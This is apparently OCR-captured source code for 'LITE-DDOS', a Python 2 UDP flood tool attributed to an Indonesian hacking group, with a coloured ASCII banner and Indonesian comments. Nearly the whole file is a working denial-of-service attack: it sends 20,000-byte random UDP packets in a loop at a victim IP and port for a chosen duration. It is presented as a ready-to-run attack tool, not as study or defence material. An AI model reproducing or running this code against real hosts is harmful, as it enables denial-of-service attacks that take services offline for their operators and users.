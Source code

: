 import time
import socket
import random
import sys
def usage():
    print "\033[1;32m#########################################################"
    print "#------------------------[\033[1;91mLITE-DDOS\033[1;32m]---------------------#"
    print "#-------------------------------------------------------#"
    print "#   \033[1;91mCommand: " "python2 LITEDDOS.py " "<ip> <port> <packet> \033[1;32m   #"
    print "#                                                       #"
    print "#\033[1;91mCreator:KeepAlive  \033[1;32m##      ###       ##                #"
    print "#\033[1;91mTeam   : ISL        \033[1;32m##     #          ##                #"
    print "#\033[1;91mVersion:1.0        \033[1;32m##      ###       ##                #"
    print "#                   ## \033[1;91m ##     \033[1;32m#  \033[1;91m##  \033[1;32m##                #"
    print "#                   ##  \033[1;91m##  \033[1;32m###   \033[1;91m##  \033[1;32m######            #"
    print "#               \033[1;91m<--[Indonesia Security Lite]-->         \033[1;32m#"
    print "#########################################################"
    print "                        @@@@@@@@@@"
    print "                       @@@@@@@@@@@@"
    print "                     @@@@@@@@@@@@@@@@"
def flood(victim, vport, duration):
    # Support us yaakk... :)
    # Okey Jadi disini saya membuat server, Ketika saya memanggil "SOCK_DGRAM" itu  menunjukkan  UDP type program
    client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    # 20000 representasi satu byte ke server
    bytes = random._urandom(20000)
    timeout =  time.time() + duration
    sent = 3000

    while 1:
        if time.time() > timeout:
            break
        else:
            pass
        client.sendto(bytes, (victim, vport))
        sent = sent + 1
        print "\033[1;91mMemulai \033[1;32m%s \033[1;91mmengirim paket \033[1;32m%s \033[1;91mpada port \033[1;32m%s "%(sent, victim, vport)
def main():
    print len(sys.argv)
    if len(sys.argv) != 4:
        usage()
    else:
        flood(sys.argv[1], int(sys.argv[2]), int(sys.argv[3]))

if __name__ == '__main__':
    main()
